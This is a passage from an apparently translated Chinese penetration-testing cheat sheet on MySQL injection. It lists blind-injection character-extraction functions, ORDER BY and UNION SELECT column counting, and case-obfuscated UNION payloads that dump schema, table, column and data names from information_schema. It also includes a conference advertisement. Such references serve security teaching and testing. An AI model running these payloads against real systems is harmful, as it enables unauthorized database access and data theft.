 * `group_concat()`
* `Limit X,1`

### **逐个盲注**

* `substr(version(),X,1)='r'` 或者 `substring(version(),X,1)=0x70` 或者 `ascii(substr(version(),X,1))=112`
* `mid(version(),X,1)='5'`

### **盲注添加**

* `LPAD(version(),1...lenght(version()),'1')='asd'...`
* `RPAD(version(),1...lenght(version()),'1')='asd'...`
* `SELECT RIGHT(version(),1...lenght(version()))='asd'...`
* `SELECT LEFT(version(),1...lenght(version()))='asd'...`
* `SELECT INSTR('foobarbar', 'fo...')=1`

## 检测列数

使用简单的ORDER语句
```
order by 1
order by 2
order by 3
...
order by XXX

UniOn SeLect 1
UniOn SeLect 1,2
UniOn SeLect 1,2,3
...
```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) 是西班牙最重要的网络安全活动之一，也是欧洲最重要的活动之一。作为促进技术知识的使命，这个大会是技术和网络安全专业人士的热点聚会。

{% embed url="https://www.rootedcon.com/" %}

## 基于MySQL的Union注入技术
```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```
## SSRF

**在这里学习不同的方法来滥用Mysql注入以获取SSRF**。
